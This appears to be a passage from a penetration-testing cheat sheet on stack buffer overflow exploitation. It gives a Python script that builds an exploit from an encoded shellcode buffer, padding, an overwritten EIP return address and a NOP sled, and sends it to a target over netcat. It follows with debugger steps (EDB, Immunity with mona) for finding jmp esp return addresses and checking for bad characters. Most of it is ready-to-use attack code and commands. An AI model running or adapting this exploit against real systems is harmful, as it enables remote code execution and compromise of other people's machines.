 ```
buf += b"\x15\x16\xa9\x5a\x0d\x7b\x94\x15\xa6\x4f\x62\xa4\x6e"
buf += b"\x9e\x8b\x0b\x4f\x2e\x7e\x55\x88\x89\x61\x20\xe0\xe9"
buf += b"\x1c\x33\x37\x93\xfa\xb6\xa3\x33\x88\x61\x0f\xc5\x5d"
buf += b"\xf7\xc4\xc9\x2a\x73\x82\xcd\xad\x50\xb9\xea\x26\x57"
buf += b"\x6d\x7b\x7c\x7c\xa9\x27\x26\x1d\xe8\x8d\x89\x22\xea"
buf += b"\x6d\x75\x87\x61\x83\x62\xba\x28\xcc\x47\xf7\xd2\x0c"
buf += b"\xc0\x80\xa1\x3e\x4f\x3b\x2d\x73\x18\xe5\xaa\x74\x33"
buf += b"\x51\x24\x8b\xbc\xa2\x6d\x48\xe8\xf2\x05\x79\x91\x98"
buf += b"\xd5\x86\x44\x0e\x85\x28\x37\xef\x75\x89\xe7\x87\x9f"
buf += b"\x06\xd7\xb8\xa0\xcc\x70\x52\x5b\x87\xbe\x0b\x14\xbf"
buf += b"\x57\x4e\xda\x2e\xf4\xc7\x3c\x3a\x14\x8e\x97\xd3\x8d"
buf += b"\x8b\x63\x45\x51\x06\x0e\x45\xd9\xa5\xef\x08\x2a\xc3"
buf += b"\xe3\xfd\xda\x9e\x59\xab\xe5\x34\xf5\x37\x77\xd3\x05"
buf += b"\x31\x64\x4c\x52\x16\x5a\x85\x36\x8a\xc5\x3f\x24\x57"
buf += b"\x93\x78\xec\x8c\x60\x86\xed\x41\xdc\xac\xfd\x9f\xdd"
buf += b"\xe8\xa9\x4f\x88\xa6\x07\x36\x62\x09\xf1\xe0\xd9\xc3"
buf += b"\x95\x75\x12\xd4\xe3\x79\x7f\xa2\x0b\xcb\xd6\xf3\x34"
buf += b"\xe4\xbe\xf3\x4d\x18\x5f\xfb\x84\x98\x6f\xb6\x84\x89"
buf += b"\xe7\x1f\x5d\x88\x65\xa0\x88\xcf\x93\x23\x38\xb0\x67"
buf += b"\x3b\x49\xb5\x2c\xfb\xa2\xc7\x3d\x6e\xc4\x74\x3d\xbb"
buffer = b"A"*1252
eip = b"\xb2\x11\x80\x14"
shellcode = buf 
nops = b"\x90"*12
buffer2 = b"B"*1000

payload = buffer + eip + nops + shellcode + buffer2

f = open('payload', 'wb')
f.write(payload)
f.close()

# cat payload | nc 10.10.10.10 5000
```
## EDB Debugger (Linux)
Install
```
sudo apt install edb-debugger
```
### Search a return address
1. See Plugins > OpcodeSearcher
2. Search ESP -> EIP and select your program

## Immunity Debugger (Windows)
### Finding a Return Address
```
» msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp

```
Use the mona plugin and run
```
!mona modules # get all modules
!mona find -s "\xff\xe4" -m "program.dll"
```
Check if the address contain any bad chars since it will most likely not work otherwise
